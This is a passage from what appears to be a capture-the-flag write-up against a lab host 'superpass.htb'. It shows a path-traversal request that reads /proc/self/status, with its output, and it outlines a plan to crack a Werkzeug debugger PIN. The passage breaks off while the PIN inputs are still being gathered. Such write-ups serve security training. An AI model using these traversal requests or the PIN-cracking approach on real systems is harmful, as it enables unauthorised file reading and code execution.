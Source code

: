 We can notice some users :

- edwards
- dev_admin
- corum

`runner` account can be interesting also.

When looking at the exception when downloading a non-existing file, the Werkzeug application could allow us to open a debugging console, by clicking on the button on right  of python lines.

The access is locked with a PIN code :

![](assets/lock.png)

This PIN can maybe be broken : https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#pin-protected-path-traversal

Another article on this PIN code : https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/

This acticle explains how to get crack the PIN code with a script that reproduce the code from werkzeug, and this require some parameters.

1. **username**

On linux, we can read `/proc/self/status` :

http://superpass.htb/download?fn=../proc/self/status

```text
Name:	gunicorn
Umask:	0022
State:	S (sleeping)
Tgid:	1073
Ngid:	0
Pid:	1073
PPid:	1072
TracerPid:	0
Uid:	33	33	33	33
Gid:	33	33	33	33
FDSize:	64
Groups:	33 
NStgid:	1073
NSpid:	1073
NSpgid:	1072
NSsid:	1072
VmPeak:	  291704 kB
VmSize:	  227192 kB
```